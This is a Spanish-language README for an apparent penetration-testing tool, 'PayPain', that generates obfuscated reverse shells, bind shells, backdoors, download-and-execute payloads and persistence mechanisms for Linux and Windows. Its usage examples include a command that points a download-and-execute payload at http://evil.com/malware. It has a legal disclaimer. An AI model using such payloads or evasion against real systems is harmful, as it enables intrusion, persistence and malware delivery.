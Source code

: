 # PayPain

## Generador de Payloads ofuscados

![PayPain Banner](images/banner.png)

## Descripción

PayPain es una herramienta de generación de payloads diseñada para profesionales de seguridad informática. Facilita la creación de diversos tipos de cargas útiles para pruebas de penetración en sistemas Linux y Windows.

## ⚠️ Advertencia Legal

Esta herramienta está diseñada EXCLUSIVAMENTE para fines educativos y pruebas de seguridad autorizadas. El uso indebido de esta herramienta para acceder a sistemas sin autorización es ilegal y puede resultar en consecuencias legales graves. El autor no se hace responsable del mal uso de esta herramienta.

## Características

- Generación de múltiples tipos de payloads (reverse shells, bind shells, backdoors, etc.)
- Soporte para sistemas Linux y Windows
- Ofuscación automática para evadir detecciones básicas
- Opciones de persistencia
- Interfaz de línea de comandos intuitiva

## Instalación

```bash
# Clonar el repositorio
git clone https://github.com/Pr1or95/paypain.git
cd paypain

# Instalar dependencias
pip install -r requirements.txt
```

## Uso

### Estructura básica del comando

```bash
python Paypain.py -i <IP> -p <PUERTO> -t <TIPO_PAYLOAD> -s <SISTEMA_OPERATIVO> -o <ARCHIVO_SALIDA>
```

### Ver ayuda

```bash
python Paypain.py --help
```

### Listar payloads disponibles

```bash
# Para Linux
python Paypain.py -l -s linux

# Para Windows
python Paypain.py -l -s windows
```

### Describir un payload específico

```bash
python Paypain.py -d reverse_shell -s linux
```

### Ejemplos de uso

#### Generar un reverse shell para Linux

```bash
python Paypain.py -i 192.168.1.100 -p 4444 -t reverse_shell -s linux -o payload.sh
```

#### Generar un backdoor PowerShell para Windows

```bash
python Paypain.py -i 192.168.1.100 -p 4444 -t powershell_backdoor -s windows -o payload.ps1
```

#### Generar un payload para descargar y ejecutar un archivo

```bash
python Paypain.py -i 192.168.1.100 -p 4444 -t download_execute -s linux -o payload.sh -u http://evil.com/malware
```

## Payloads disponibles

### Linux
- **Reverse_shell**: shell inverso que se conecta a una máquina atacante
- **Bind_shell**: shell que se vincula a un puerto en la máquina objetivo y espera conexiones
- **Download_execute**: Descarga y ejecuta un archivo de una URL remota
- **Python_backdoor**: backdoor en Python que establece una conexión con la máquina atacante
- **PHP_backdoor**: backdoor en PHP que establece una conexión con la máquina atacante
- **Bash_backdoor**: backdoor en Bash que intenta conectarse periódicamente a la máquina atacante
- **Cron_persistence**: establece una tarea cron para ejecutar periódicamente un shell inverso

### Windows
- **Reverse_shell**: shell inverso en PowerShell que se conecta a una máquina atacante
- **Bind_shell**: shell PowerShell que se vincula a un puerto y espera conexiones
- **Download_execute**: descarga y ejecuta un script PowerShell de una URL remota
- **Powershell_backdoor**: backdoor en PowerShell que intenta conectarse periódicamente a la máquina atacante
- **VBS_backdoor**: backdoor en VBScript que ejecuta un payload PowerShell oculto
- **Registry_persistence**: establece persistencia mediante el registro de Windows para ejecutar un payload al inicio de sesión
- **WMI_persistence**: establece persistencia mediante tareas programadas de Windows

## Capturas de pantalla

Generamos un payload de reverse shell para Linux
![Imagen 1](images/img1.png)

Nos ponemos en escucha con Netcat en el sistema víctima
![Imagen 2](images/img2.png)

Recibimos la reverse shell en nuestro sistema
![Imagen 3](images/img3.png)

## Contribución

Las contribuciones son bienvenidas:

1. Haz un fork del repositorio
2. Crea una nueva rama (`git checkout -b feature/nueva-funcionalidad`)
3. Haz commit de tus cambios (`git commit -am 'Añadir nueva funcionalidad'`)
4. Sube los cambios a tu rama (`git push origin feature/nueva-funcionalidad`)
5. Abre un Pull Request
